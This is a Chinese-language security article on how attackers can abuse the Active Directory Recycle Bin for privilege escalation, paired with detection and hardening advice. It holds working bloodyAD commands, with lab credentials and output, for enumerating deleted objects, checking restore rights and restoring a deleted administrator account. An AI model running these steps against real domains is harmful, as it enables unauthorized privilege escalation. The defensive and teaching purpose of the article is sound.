

_"你查过回收站了吗？"_

这是我们许多人从小听到的一句话——通常是在我们找不到明明就在眼前的东西时。在网络安全领域，这句话比以往任何时候都更真实，尤其是在Active Directory环境中。

Active Directory回收站通常被视为安全网——一个删除对象在永久删除前暂时存放的地方。但对攻击者来说，这里可能是机会的宝库。被删除的用户、组等对象可能仍然保留关键属性，可被用于权限提升、横向移动或持久化。

本文将深入探讨AD回收站的工作原理，攻击者如何利用它获取更高权限，以及防御者如何检测和缓解这些风险。

## 了解Active Directory回收站

[Active Directory回收站](https://learn.microsoft.com/zh-cn/windows-server/identity/ad-ds/get-started/adac/active-directory-recycle-bin?tabs=adac)自Windows Server 2008 R2引入，旨在让对象恢复更简单、更安全。该功能需显式启用，且一旦启用无法撤销。当对象（如用户或组）被删除时，并不会立即清除——而是被标记为“已删除”，并移动到隐藏容器。这样会保留所有属性，如组成员、权限和SID历史，便于一键恢复。

[已删除对象](https://learn.microsoft.com/zh-cn/openspecs/windows_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714#gt_d9c9e99f-74f1-483e-bcb1-310e75ff1344)的默认保留期为180天，由_Directory Service_对象（`CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=example,DC=com`）的[tombstoneLifetime](https://learn.microsoft.com/zh-cn/openspecs/windows_protocols/ms-adts/1887de08-2a9e-4694-95e2-898cde411180)属性定义，除非被_msDS-DeletedObjectLifetime_覆盖。如果都未定义，Windows 2000–2008 Server为60天，2008 R2及以后仅2天。  
保留期过后，_已删除对象_变为回收状态，_isRecycled_属性设为`TRUE`。此时对象不再包含全部属性数据，只能通过直接操作AD快照的工具恢复。此状态用于通知其他域控对象已被删除。

")

如果未启用回收站或服务器版本低于2008 R2，对象会被_tombstoned_而不是_deleted_。Tombstoned对象看起来类似于回收对象，但可恢复。然而，它们大部分属性会被剥离，仅保留_ObjectSID_、_nTSecurityDescriptor_（ACL仍然有效），以及自Windows 2003起的[_sIDHistory_](https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/active-directory/retore-deleted-accounts-and-groups-in-ad#how-to-manually-undelete-objects-in-a-deleted-objects-container)，但会丢失所有组成员关系。

然而，这种便利带来了隐藏的安全盲点。许多组织认为已删除对象无害，但它们仍可被查询、恢复，甚至被滥用，如果未妥善管理。

**要点：**
- 已删除对象保留所有属性（包括敏感属性）
- Tombstoned对象保留最重要的属性
- 存储于`CN=Deleted Objects`容器
- 若未被回收或永久删除，可恢复全部权限

## 权限提升途径

攻击者若获得AD读取权限，可枚举已删除对象，寻找权限提升机会。例如：

- **SID历史滥用：** 已删除/tombstoned对象可能保留SID历史，从而获得特权对象的权限。
- **组成员关系：** 恢复已删除对象可重新获得对敏感资源的访问，因为其组成员关系会恢复。
- **ACL与委派：** 已删除/tombstoned对象可能仍被ACL引用或拥有Kerberos委派，允许间接访问或控制。
- **敏感信息：** 已删除对象可能包含敏感信息，如`description`、`info`或自定义属性中的明文密码。

还有更多滥用可能（如GPO、OU等），这些途径常被传统审计忽略，使回收站成为隐蔽的攻击面。

## 前提条件

要列出已删除对象，主体需对_Deleted Objects_容器有`LIST_CHILD`权限，并使用特殊LDAP控制OID `1.2.840.113556.1.4.2064`（显示已删除、tombstoned和回收对象）：

```powershell
# 使用bloodyAD列出已删除对象
$ bloodyAD -u Administrator -d bloody -p 'Password123!' --host 192.168.100.3 get search -c 1.2.840.113556.1.4.2064 --resolve-sd --attr ntsecuritydescriptor --base 'CN=Deleted Objects,DC=bloody,DC=corp' --filter "(objectClass=container)"

distinguishedName: CN=Deleted Objects,DC=bloody,DC=corp
[...]
nTSecurityDescriptor.ACL.0.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.0.Trustee: john
nTSecurityDescriptor.ACL.0.Right: LIST_CHILD
nTSecurityDescriptor.ACL.0.ObjectType: Self
[...]

$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name

distinguishedName: CN=test_pc\0ADEL:db0e6105-73a0-44e6-b9ad-a546af714ae5,CN=Deleted Objects,DC=bloody,DC=corp
name: test_pc
DEL:db0e6105-73a0-44e6-b9ad-a546af714ae5

distinguishedName: CN=test_pc2\0ADEL:c535b0ea-c822-4920-9452-292824d1f091,CN=Deleted Objects,DC=bloody,DC=corp
name: test_pc2
DEL:c535b0ea-c822-4920-9452-292824d1f091

distinguishedName: CN=test_pc3\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
name: test_pc3
DEL:c9e8a129-f77f-4159-b700-3c8fd06963fe
[...]
```

[要恢复对象](https://learn.microsoft.com/en-us/windows/win32/ad/restoring-deleted-objects)，主体需具备：
- 域对象上的**Restore Tombstoned**权限
- 已删除对象上的**Generic Write**权限
- 用于恢复的OU上的**Create Child**权限  
  （提示：可用`--newParent`参数指定有权限的OU）

```powershell
# 检查恢复权限
$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get object 'DC=bloody,DC=corp' --attr ntsecuritydescriptor --resolve-sd                   

distinguishedName: DC=bloody,DC=corp
[...]
nTSecurityDescriptor.ACL.4.Type: == ALLOWED_OBJECT ==
nTSecurityDescriptor.ACL.4.Trustee: john
nTSecurityDescriptor.ACL.4.Right: CONTROL_ACCESS
nTSecurityDescriptor.ACL.4.ObjectType: Reanimate-Tombstones
[..]

$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 get search -c 1.2.840.113556.1.4.2064 --filter '(&(isDeleted=TRUE)(sAMAccountName=test_pc3$))' --attr ntsecuritydescriptor --resolve-sd

distinguishedName: CN=test_pc3\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_PRESENT|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.28.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.28.Trustee: john
nTSecurityDescriptor.ACL.28.Right: GENERIC_ALL
nTSecurityDescriptor.ACL.28.ObjectType: Self
nTSecurityDescriptor.ACL.28.Flags: CONTAINER_INHERIT; INHERITED
[...]

$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get object 'CN=Users,DC=bloody,DC=corp' --attr ntsecuritydescriptor --resolve-sd

distinguishedName: CN=Users,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_AUTO_INHERITED|DACL_PRESENT|SACL_AUTO_INHERITED|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.3.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.3.Trustee: john
nTSecurityDescriptor.ACL.3.Right: CREATE_CHILD
nTSecurityDescriptor.ACL.3.ObjectType: Self
nTSecurityDescriptor.ACL.3.Flags: CONTAINER_INHERIT
[...]
```
{}
默认情况下，只有域管理员可以列出和恢复已删除对象。
{}

SharpHound即使以域管理员身份运行，也不会收集已删除对象，尽管文档中提到可以（[见BloodHound文档](https://bloodhound.specterops.io/collect-data/permissions#granting-access-to-the-deleted-objects-container-optional)）。  
因此BloodHound CE **无法**检测已删除对象带来的权限提升机会。

## 真实场景

一旦攻击者确保对已删除对象、OU和**Restore Tombstoned**权限具备足够权限：

````powershell
$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get writable --include-del
[...]
distinguishedName: CN=garbage.admin\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
permission: WRITE
[...]
DistinguishedName: CN=Users,DC=bloody,DC=corp
permission: CREATE_CHILD
````

即可通过sAMAccountName或objectSID轻松恢复对象：

````powershell
$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 set restore 'S-1-5-21-1394970401-3214794726-2504819329-1104'

[+] S-1-5-21-1394970401-3214794726-2504819329-1104 已成功恢复到 CN=garbage.admin,CN=Users,DC=bloody,DC=corp
````

**场景示例：**

- **场景1：恢复已删除的管理员用户**  
  攻击者拥有恢复权限后，恢复一个被删除的域管理员账户。由于该账户保留SID和组成员关系，立即恢复高权限。

- **场景2：SID历史注入**  
  恢复带有特权SID历史的已删除用户对象，用于绕过组成员检查。

- **场景3：ACL利用**  
  已删除组仍被关键资源的ACL引用。攻击者恢复该组并将自己加入，从而获得访问权限。

{}
有一台HTB靶机叫[TombWatcher](https://www.hackthebox.com/machines/tombwatcher)可供练习。
{}

## 检测与防御

为防御这些威胁，安全团队可：

- **监控恢复操作**  
  跟踪谁何时恢复了对象。可通过事件日志和SIEM集成实现。\
  通过事件日志中的 _A directory service object was undeleted_ 事件5138进行监控：
  - 无论是否启用回收站，都需启用`Directory Service Changes`审计：
  ```ps1
  AuditPol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
  ```
  - 或通过组策略：\
  `计算机配置 > 策略 > Windows设置 > 安全设置 > 高级审核策略配置 > 审核策略 > DS访问  
  启用审核目录服务更改`
  - 容器（如CN=Users）或域对象需配置SACL以审计创建操作。使用Active Directory用户和计算机（ADUC）并启用高级功能，右键容器→属性→安全→高级→审核，添加“创建所有子对象”审核项（域对象请启用继承）

  然后在事件查看器 > Windows日志 > 安全 > [事件5138](https://learn.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-5138)中查看：

  

- **清理敏感属性**  
  删除前，移除对象的特权组成员关系和SID历史。

- **调整保留期**  
  默认保留期为180天，可根据公司策略通过以下属性调整：

  ````powershell
  $ bloodyAD -u Administrator -d bloody -p 'Password123!' --host 192.168.100.3 set object 'CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp' tombstoneLifetime -v 60
  [+] CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp 的 tombstoneLifetime 已更新

  $ bloodyAD -u Administrator -d bloody -p 'Password123!' --host 192.168.100.3 set object 'CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp' msDS-DeletedObjectLifetime -v 30
  [+] CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=bloody,DC=corp 的 msDS-DeletedObjectLifetime 已更新
  ````

- **强制回收状态**  
  对于敏感对象，可通过再次删除使其进入回收状态：

  ````powershell
  Get-ADObject -Filter {isDeleted -eq $True -and samaccountname -eq "recycletest"} -IncludeDeletedObjects | Remove-ADObject
  ````

  {}
  仅在启用回收站时可用。
  {}

- **限制恢复权限**  
  仅可信管理员应有恢复对象的权限。

## 结论

AD回收站不仅仅是个便利功能——它也是潜在的攻击面。通过“查找回收站”，攻击者能发现防御者常常忽略的权限提升路径。通过适当的审计、监控和策略，组织可以将这一隐藏风险转化为可控风险。
